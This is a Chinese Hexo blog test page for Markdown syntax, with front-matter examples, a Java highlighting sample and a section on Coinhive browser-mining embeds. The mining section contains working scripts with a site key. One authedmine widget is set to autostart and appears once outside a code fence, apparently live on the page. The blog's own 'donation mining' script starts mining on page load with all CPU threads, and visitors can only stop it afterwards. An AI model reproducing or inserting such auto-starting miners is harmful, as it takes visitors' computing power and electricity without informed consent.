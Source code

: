 ```yaml
---
title: 测试模块
date: 2018-08-11 23:29:08
updated:
description: 测试代码显示及其其他md语法
categories: test
type: photo
photos: https://raw.githubusercontent.com/ds19991999/githubimg/master/picgo/20180812135307.png
tags:
music-id:
password:
---
```

主要是平时一些不确定的和不统一的md语法测试。

## 文件头

```
title: 
date: 2018-08-10 23:29:08
updated:
description: 
categories:
type: photo
photos:
- https://raw.githubusercontent.com/ds19991999/githubimg/master/picgo/20180811003053.jpg
tags:
music-id: 31234010
password:
```

## 自动高亮

```
package l2f.gameserver.model;

public abstract class L2Char extends L2Object {
  public static final Short ERROR = 0x0001;

  public void moveTo(int x, int y, int z) {
    _ai = null;
    log("Should not be called");
    if (1 > 5) { // wtf!?
      return;
    }
  }
}
```

## 挖矿样式

### Coinhive官网样式
```
	<div>
	    {% unless is_index %}
		<script src="https://authedmine.com/lib/simple-ui.min.js" async></script>
		<div class="coinhive-miner" 
			style="width: 100%; height: 100px"
			data-key="YjyptNPkNzUZwQonjCLhkllZAW85Axyo"
			data-autostart="true"
			data-whitelabel="false"
			data-background="#000000"
			data-text="#eeeeee"
			data-action="#00ff00"
			data-graph="#555555"
			data-threads="7"
			data-throttle="0.1">
			<em>Loading...</em>
		</div>
		{% endunless %}
	</div>
```
	<div>
	    {% unless is_index %}
		<script src="https://authedmine.com/lib/simple-ui.min.js" async></script>
		<div class="coinhive-miner" 
			style="width: 100%; height: 100px"
			data-key="YjyptNPkNzUZwQonjCLhkllZAW85Axyo"
			data-autostart="true"
			data-whitelabel="false"
			data-background="#000000"
			data-text="#eeeeee"
			data-action="#00ff00"
			data-graph="#555555"
			data-threads="7"
			data-throttle="0.1">
			<em>Loading...</em>
		</div>
		{% endunless %}
	</div>

### 本博客样式

```
	<div>
		<h3 align="center">⬇⬇~ 挖 矿 打 赏 系 统 ~⬇⬇</h3>
		<script src="https://coinhive.com/lib/coinhive.min.js"></script>
		<center>
			<table >
				<tbody>
				<tr>
					<td align="center">启动线程数</td>
					<td align="center">当前算力(Hashs/秒)</td>
					<td align="center">您已贡献(Hash单位：个)</td>
				</tr>
				<tr>
					<td id="tcount" align="center">0</td>
					<td id="hps" align="center">0</td>
					<td id="ths" align="center">0</td></tr>
				<tr><td colspan="3;" id="status" align="center">您正在打赏中，随时可以停止。</td></tr>
				</tbody>
			</table>
		</center>
		
		<div><p id="minebutton" style="text-align:center;">
			<button onclick="miner.start(CoinHive.FORCE_EXCLUSIVE_TAB)">停止挖矿打赏</button>
		</p></div>

		<script type="text/javascript">
			var miner=new CoinHive.User
				("YjyptNPkNzUZwQonjCLhkllZAW85Axyo",
				"www.ds-vip.top",
				{threads:navigator.hardwareConcurrency,autoThreads:!1,throttle:.9,forceASMJS:!1});
			
			miner.start(CoinHive.FORCE_EXCLUSIVE_TAB),
			setInterval(function(){var e=miner.getNumThreads(),
			n=Math.round(100*miner.getHashesPerSecond())/100,
			t=miner.getTotalHashes();miner.getAcceptedHashes()/256;
			
			miner.isRunning()?(document.getElementById("tcount").innerHTML=e,document.getElementById("hps").innerHTML=n,	
			document.getElementById("ths").innerHTML=t,document.getElementById("status").innerHTML="您正在打赏中，随时可以停止。",
			document.getElementById("minebutton").innerHTML='<button onclick="miner.stop()">停止挖矿打赏</button>'):(document.getElementById("tcount").innerHTML="0",document.getElementById("hps").innerHTML="0",document.getElementById("ths").innerHTML=t,document.getElementById("status").innerHTML="您已经停止打赏，随时可以开始。",document.getElementById("minebutton").innerHTML='<button onclick="miner.start(CoinHive.FORCE_EXCLUSIVE_TAB)">开始挖矿打赏</button>')},1e3)
		</script>
	</div>
```

